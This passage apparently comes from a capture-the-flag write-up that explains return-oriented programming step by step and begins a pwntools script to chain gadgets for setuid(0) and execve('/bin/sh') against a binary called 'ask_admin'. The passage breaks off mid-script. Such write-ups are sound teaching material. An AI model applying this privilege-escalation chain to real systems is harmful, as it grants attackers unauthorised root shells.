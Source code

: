 One or many ASM instructions, always followed by a "ret" one. This is the key point to execute other gadgets.

For example, let's say we want to set registers rax to 0xC0FF33 and rdi to 0x50DA.
We know that the asm binary for "pop rax; ret;" exists somewhere in our executable at address 0x1234.
Same, "pop rdi; ret" exists at address 0x5678.
Let's put then on our stack the following values
```
3412000000000000 -- address of a "pop rax; ret"
33FFC00000000000 -- 0xC0FF33
7856000000000000 -- address of a "pop rdi; ret"
DA50000000000000 -- 0x50DA
xxxxxxxxxxxxxxxx -- address of our next gadget, if any
```
When the corrupted RET is executed, we jump to 0x1234
Stack is now :
```
33FFC00000000000 -- 0xC0FF33
7856000000000000 -- address of a "pop rdi; ret"
DA50000000000000 -- 0x50DA
xxxxxxxxxxxxxxxx -- address of our next gadget, if any
```
Then, we execute the next instruction, at 0x1234 : pop rax ---> we will set rax to 0xC0FF33, and stack will be
```
7856000000000000 -- address of a "pop rdi; ret"
DA50000000000000 -- 0x50DA
xxxxxxxxxxxxxxxx -- address of our next gadget, if any
```
The next instruction (after "pop rax") was "ret" ---> we jump to 0x5678, and stack is
```
DA50000000000000 -- 0x50DA
xxxxxxxxxxxxxxxx -- address of our next gadget, if any
```
Then, at 0x5678, we execute "pop rdi" ---> we set rdi to 0x50DA; and then a "ret" to go to our next gadget.
This sequence is named the ROP chain. Let's build ours
### Defining our ROP chain
The commented code in the source file is interesting. Even if it can't be used anymore, why not trying to mimic it ? We may be able to do some syscalls to setuid(0) and execve("/bin/sh") !
There is a nice cheat sheet [here](https://github.com/Hackndo/misc/blob/master/syscalls64.md).
According to that page, we can easily do
* setuid(0) : rax = 105, rdi = 0, then execute a syscall
* execve("/bin/sh") : rax = 59, rdi points at "/bin/sh", rsi and rdx points at 0x0000, then execute a syscall
### Building our ROP chain
Hopefully, there are useful libs to create a ROP chain, like Python's Pwntools.
```python
#!/usr/bin/python3  
from pwn import *

# We load our binary and start a ROP chain
elf = context.binary=ELF("./ask_admin", checksec = False)  
rop = ROP(elf)  

# Start the process and read stdin until it's our turn
p = process("./ask_admin")
p.clean()  
  
# Let's build our chain. First: setuid(0)
# This will find a gadget to set rax to 105, put this address on the stack; then put 105
rop.rax = 105 
# And same for rdi
```